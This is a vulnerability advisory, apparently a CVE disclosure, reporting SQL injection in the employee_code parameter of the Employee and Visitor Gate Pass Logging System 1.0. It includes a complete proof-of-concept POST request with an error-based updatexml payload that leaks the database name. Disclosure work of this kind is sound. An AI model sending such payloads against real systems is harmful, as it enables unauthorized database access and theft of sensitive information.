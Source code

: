 ## Affected version: 
Employee and Visitor Gate Pass Logging System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
/employee_gatepass/classes/Master.php?f=log_employee

## Description:
Employee and Visitor Gate Pass Logging System 1.0 is vulnerable to unrestricted SQL injection attacks via /employee_gatepass/classes/Master.php?f=log_employee, the controllable parameter is: employee_code. This function brings the employee_code parameter into the SQL statement for execution without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /employee_gatepass/classes/Master.php?f=log_employee HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 73
Origin: http://localhost
Connection: close
Referer: http://localhost/employee_gatepass/
Cookie: PHPSESSID=pdhks4bt3kfuc877aip0m8tdmp
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23
Priority: u=1

type=1&employee_code=12' and updatexml(1,concat(0x7e,(database())),3)-- q
```
![image](https://github.com/Xu-Mingming/cve/assets/172484755/99b49182-c65e-46b0-b73e-74c80b8105cd)


Get the database name: employee_gatepass_db
## code analysis:

The employee_code parameter in Master.php is controllable and directly brought into the SQL statement for execution, causing SQL injection.

![image](https://github.com/Xu-Mingming/cve/assets/172484755/2dbe33eb-e011-42f2-96e8-be92e6bc0d77)

